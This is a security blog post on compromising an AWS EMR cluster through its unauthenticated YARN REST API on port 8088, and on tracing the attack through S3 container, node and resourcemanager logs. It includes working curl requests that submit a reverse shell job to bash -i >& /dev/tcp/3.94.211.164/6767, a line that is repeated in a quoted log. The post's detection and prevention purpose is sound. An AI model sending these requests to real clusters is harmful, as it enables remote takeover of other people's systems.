

--- 
I recently had the opportunity to dig deeper into the Elastic Map Reduce (EMR) service in AWS. According to the official Amazon docs (here) "...EMR is a manged cluster platform that simlifies running big data frameworks..." Full disclosure I have virtually zero experience with big data and big data platforms. The closest I've gotten to that space is storing data in S3 and searching it with Athena. Oh, I also sometimes search enterprise Splunk without specifying an index or sourcetype. That counts right?

The reason I was digging into EMR was not to learn more about big data, hadoop, spark, etc. But instead it was to answer a few simple questions. How would someone compromise a cluster, and on the flip side, how could you detect it was compromised and what the attackers did after compromise.

---

### Setting Up a Cluster

Amazon has done an amazing job at making it really easy to deploy an EMR cluster. In fact its just a few clicks and its up. Within the EMR section select `create` to create a cluster. Once the `Create Cluster - Quick Options` page loads configure your cluster to meet your needs. For this example select release emr-6.0.0 with Spark, Yarn, and Zeppelin.

Select the key pair to use for the instances which will be part of the cluster, and then click the `Create Cluster` button. A screenshot of the configuration setup is below.


The instances will spin up fairly quickly, the cluster will become fully operational in about 3-5 minutes. Once it's ready the cluster status will be `Waiting, Cluster Ready` the green dot next to the cluster name will be solid green as pictured below



In order to access the cluster make sure to add a security group to the primary node which gives access to 8088. **DO NOT EXPOSE THIS TO THE ENTIRE INTERNET**. I cannot stress this enough, do not expose the port to entire Internet, only allow access from a trusted IP.

---

### Compromising EMR

As it turns out with improper security configurations an EMR deployment can be compromised with a couple of curl requests or a quick python script.

The first request we need to make constructs a new application for us, and returns various meta details about the applicaiton.

```bash
curl --request POST 'PRIMARYHOST:8088/ws/v1/cluster/apps/new-applicaion'
```

If successful we get a response similar to the one below:


{
 "application-id": "application_1590702911576_0016",
 "maximum-resource-capability": {
  "memory": 12288,
  "vCores": 4,
  "resourceInformations": {
   "resourceInformation": [
    {
     "maximumAllocation": 9223372036854775807,
     "minimumAllocation": 0,
     "name": "memory-mb",
     "resourceType": "COUNTABLE",
     "units": "Mi",
     "value": 12288
    },
    {
     "maximumAllocation": 9223372036854775807,
     "minimumAllocation": 0,
     "name": "vcores",
     "resourceType": "COUNTABLE",
     "units": "",
     "value": 4
    }
   ]
  }
 }
}


The main field we care about is the application-id field. The resource information is also important. We need to make sure that we do not request resources beyond the capacity of the resources allocted for the applications.

The next step is to execute the application. Within an exection request, we define additional parameters for the job. There are all kinds of configuration options such as resources to consume, commands to run, and a lot of other things that are well beyond the scope of this article. The POST request below will call our application and have it run a simple reverse shell:

```bash
curl --request POST 'PRIMARYHOST:8088/ws/v1/cluster/apps' \
--header 'Accept: application/json' \
--header 'Content-Type: application/json' \
--data-raw '{
 "max-app-attempts":2,
 "am-container-sepc":{
  "commands":{
   "command":"/bin/bash -c "bash -i >& /dev/tcp/3.94.211.164/6767 0>&1""
   }
 },
 "application-id":"application_1590702911576_0016",
 "application-type":"YARN",
 "application-anem":"yupyup"
}'
```


Once the curl request is made to run the application we can expect a 202 response with no data. A 202 response means the application run request was submitted successfully. It DOES NOT mean the application ran successfully. If there are any configuration errors or other errors the response is still going to be a 202. Just because the applicaiton was submitted successfully does not mean that it will be processed and executed succesfully.

In the web GUI at `http://PRIMARYHOST:8088/cluster` we see that the application ID we called to run will now have an execution history. The user will be `dr.who` because we created and called the application without authenticating. The other columns have details about various things such as the start times, launch times, etc. Even though the 'State' and 'FinalStatus' columns may say failed the shell code within the application was probably ran. 


---

### Logging

As an attacker we can confirm if this worked by checking to see if we have a shell from one of the nodes within the cluster, but how can we as defenders tell if the execution was successful? Good news, all of the activity above is logged. By digging into the logs a bit we should be able to tell what commands were executed and where they were executed at.

When we setup the cluster we enabled logging to a S3 folder. All of our applications will log to this folder. If everything was left to the defaults the logging folder will be something similar to this: `s3://aws-logs-ACCOUNT-us-east-1/elasticmapreduce/CLUSTER ID`. Within this folder we can pull container logs out for each application. They'll be in a subfolder similar to this `/containers/application_1590702911576_0016/container_1590702911576_0016_02_000001/launch_container.sh.gz`

The `launch_container.sh` log will have exection details for the application when it was called. In the log output below we can see that the last line contains the reverse shell code that we included in the POST request above when we ran our malicious applicaiton.

```bash
...

# Creating copy of launch script

cp "launch_container.sh" "/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/launch_container.sh"

chmod 640 "/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/launch_container.sh"

# Determining directory contents

echo "ls -l:" 1>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

ls -l 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0015/container_1590702911576_0015_01_000001/directory.info"

echo "find -L . -maxdepth 5 -ls:" 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0015/container_1590702911576_0015_01_000001/directory.info"

find -L . -maxdepth 5 -ls 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

echo "broken symlinks(find -L . -maxdepth 5 -type l -ls):" 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

find -L . -maxdepth 5 -type l -ls 1>>"/var/log/hadoop-yarn/containers/application_1590702911576_0016/container_1590702911576_0016_01_000001/directory.info"

echo "Launching container"

exec /bin/bash -c "bash -i >& /dev/tcp/3.94.211.164/6767 0>&1"
```

At this point we know what was ran, but we don't know which node the malicious code was executed. This is going to be critical to discover so that we can conduct further analysis of the system to see what else the attacker did. To do this we need to change to a new directory within S3 to find the node logs. Node logs can be found here: `node/NODE INSTANCE ID/applications/hadoop-yarn`

These logs are local logs for each instance in the cluster and show all of the application submissions. A sample output is below.


2020-06-20 20:09:04,277 INFO SecurityLogger.org.apache.hadoop.ipc.Server (Socket Reader #1 for port 8041): Auth successful for appattempt_1590702911576_0016_000001 (auth:SIMPLE)

2020-06-20 20:09:04,280 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.ContainerManagerImpl (IPC Server handler 32 on default port 8041): Start request for container_1590702911576_0016_01_000001 by user dr.who

2020-06-20 20:09:04,280 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.ContainerManagerImpl (IPC Server handler 32 on default port 8041): Creating a new application reference for app application_1590702911576_0016

2020-06-20 20:09:04,280 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.application.ApplicationImpl (NM ContainerManager dispatcher): Application application_1590702911576_0016 transitioned from NEW to INITING

2020-06-20 20:09:04,280 INFO org.apache.hadoop.yarn.server.nodemanager.NMAuditLogger (IPC Server handler 32 on default port 8041): USER=dr.who IP=172.31.18.33 OPERATION=Start Container Request TARGET=ContainerManageImpl RESULT=SUCCESS APPID=application_1590702911576_0016 CONTAINERID=container_1590702911576_0016_01_000001

2020-06-20 20:09:04,292 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.application.ApplicationImpl (NM ContainerManager dispatcher): Adding container_1590702911576_0016_01_000001 to application application_1590702911576_0016

2020-06-20 20:09:04,292 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.application.ApplicationImpl (NM ContainerManager dispatcher): Application application_1590702911576_0016 transitioned from INITING to RUNNING

2020-06-20 20:09:04,292 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.container.ContainerImpl (NM ContainerManager dispatcher): Container container_1590702911576_0016_01_000001 transitioned from NEW to SCHEDULED

2020-06-20 20:09:04,292 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.AuxServices (NM ContainerManager dispatcher): Got event CONTAINER_INIT for appId application_1590702911576_0016

2020-06-20 20:09:04,292 INFO org.apache.spark.network.yarn.YarnShuffleService (NM ContainerManager dispatcher): Initializing container container_1590702911576_0016_01_000001

2020-06-20 20:09:04,292 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.scheduler.ContainerScheduler (NM ContainerManager dispatcher): Starting container [container_1590702911576_0016_01_000001]

2020-06-20 20:09:04,305 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.container.ContainerImpl (NM ContainerManager dispatcher): Container container_1590702911576_0016_01_000001 transitioned from SCHEDULED to RUNNING

2020-06-20 20:09:04,305 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.monitor.ContainersMonitorImpl (NM ContainerManager dispatcher): Starting resource-monitoring for container_1590702911576_0016_01_000001

2020-06-20 20:09:05,867 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.monitor.ContainersMonitorImpl (Container Monitor): container_1590702911576_0016_01_000001's ip = 172.31.22.26, and hostname = ip-172-31-22-26.ec2.internal

2020-06-20 20:09:05,873 INFO org.apache.hadoop.yarn.server.nodemanager.containermanager.monitor.ContainersMonitorImpl (Container Monitor): Skipping monitoring container container_1590702911576_0016_01_000001 since CPU usage is not yet available.

2020-06-20 20:09:35,593 ERROR org.apache.hadoop.yarn.server.nodemanager.NodeStatusUpdaterImpl (Node Status Updater): NM node labels {} were not accepted by RM and message from RM : null


On line 9 in the logs above we can see that the anonymous user 'dr.who' requested to start a container, the application ID, and the container ID for the particular request. On line 27 we can see the node within our cluster which ran the malicious application.

Additional logs can be found on the nodes themselves. Another way we can see activity is by pulling the hadoop-yarn-resourcemanager logs out of the primary server.

Within this log source we can see lines similar to the one below that show the resourcemanager assigning our malicious container `container_1590702911576_0016_01_000001` work to the `172.31.22.26` host. This is a great way to determine which host(s) the malicious activity occured on.

```bash
2020-06-20 20:09:04,269 INFO org.apache.hadoop.yarn.server.resourcemanager.scheduler.common.fica.FiCaSchedulerNode (SchedulerEventDispatcher:Event Processor): Assigned container container_1590702911576_0016_01_000001 of capacity memory:32, vCores:1 on host ip-172-31-22-26.ec2.internal:8041, which has 1 containers, memory:32, vCores:1 used and memory:12256, vCores:3 available after allocation
```

Other helpful information can be pulled from this log source. The following log entry shows the initial application creation request:

```bash
2020-06-20 20:09:04,216 INFO org.apache.hadoop.yarn.server.resourcemanager.RMAuditLogger (qtp677217562-27): USER=dr.who OPERATION=Submit Application Request TARGET=ClientRMService RESULT=SUCCESS APPID=application_1590702911576_0016 QUEUENAME=default
```

Combining several other log entries from this file will show the entire lifecyle of the application. This is very helpful when attempting to pull together a detailed timeline of all the events.

---

### Next Steps
Now that we have a general understanding of what occured, and where it occured we have to begin digging into the activity that occured on the node which spawned the reverse shell. If there are hundreds of application run requests they will all have to be examined. Without an understanding of each request it's hard to say exactly what occured or which nodes were potentially compromised.

---

### Prevention
Preventing this behavior is straight forward, do not expose EMR clusters to the Internet. Thats it. Make sure the security groups associated with each node in the cluster are scoped to the minium access required to manage and maintain the systems. There is even a GuardDuty alert [Port Probe EMR Unprotected Port](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_recon.html#PortProbeEMRUnprotectedPort). That will fire if someone scans a sensitive port (8088).

---

### Additional Resources
Additional references, I leaned on these heavily while trying to better understand this space:

- [Hadoop YARN: An Assessment of the Attack Surface and Its Exploits](https://blog.radware.com/security/2018/11/hadoop-yarn-an-assessment-of-the-attack-surface-and-its-exploits/)
- [Don't let Dr.Who hijack your EMR cluster](https://medium.com/@ivan.vasquez/dont-let-dr-who-hijack-your-emr-cluster-9bb67daa4641)
- [Hadoop Yarn hack?](https://medium.com/@neerajsabharwal/hadoop-yarn-hack-9a72cc1328b6)